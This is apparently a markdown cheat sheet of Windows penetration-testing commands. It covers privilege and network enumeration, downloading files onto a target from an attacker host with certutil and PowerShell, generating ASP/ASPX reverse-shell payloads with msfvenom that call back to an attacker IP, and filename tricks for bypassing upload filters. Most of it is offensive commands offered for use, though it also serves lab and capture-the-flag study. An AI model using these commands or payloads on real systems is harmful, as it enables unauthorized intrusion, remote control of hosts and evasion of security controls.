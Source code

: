 OS architecture 

- powershell

```powershell
# https://docs.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-6.0
[System.Environment]::Is64BitOperatingSystem
# without .Net
(gwmi Win32_OperatingSystem).OSArchitecture -eq '64-bit'
```

- cmd

```cmd
(wmic os get osarchitecture)
```

AppData's Temp folder (%TEMP%)

```cmd
C:\Users\<User Account>\AppData\Local\Temp
C:\Windows\Temp
```

[displays file ownership information](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dir)

```cmd
dir /q /a
```

privileges information

```cmd
whoami /priv
whoami /all
```

check network connections 

```cmd
netstat -ano | findstr LISTEN
```

file transfer

```cmd
# on target 
certutil -urlcache -split -f "http://<target ip>/<file>" C:\Users\<User Account>\Desktop\<file>
PowerShell -c "(new-object System.Net.WebClient).DownloadFile('http://<attacker ip>/<file>', '<file>')"
```

ASP & ASPX reverse shell

```shell
# ASP
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f asp -o rev.asp
# ASPX
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f aspx -o rev.aspx
# file upload bypass
#   try filename "rev.aspx..... .. . . ."
#   try filename "rev.aspx.png"
#   try web.config (File_Upload_Bypass.md)
```
